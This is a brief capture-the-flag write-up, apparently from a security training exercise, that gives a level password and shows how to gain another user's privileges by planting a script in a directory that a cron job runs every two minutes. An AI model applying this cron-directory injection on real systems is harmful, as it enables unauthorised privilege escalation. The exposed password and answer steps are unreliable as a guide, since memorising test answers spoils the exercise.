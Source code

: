 # Level 05

## Password
> ne2searoevaevoem4ov4ar8ap

## Steps
1. ```cat /var/mail/level05```\
```*/2 * * * * su -c "sh /usr/sbin/openarenaserver"``` - flag05 <br/>
It looks like a crontab directive, ```/usr/sbin/openarenaserver``` seems to be executed every 2 minutes
2. ```cat /usr/sbin/openarenaserver```\
This script executes every script in the ```/opt/openarenaserver``` folder before deleting them
3. ```echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit.sh```
4. Wait 2 minutes, then ```cat /tmp/flag```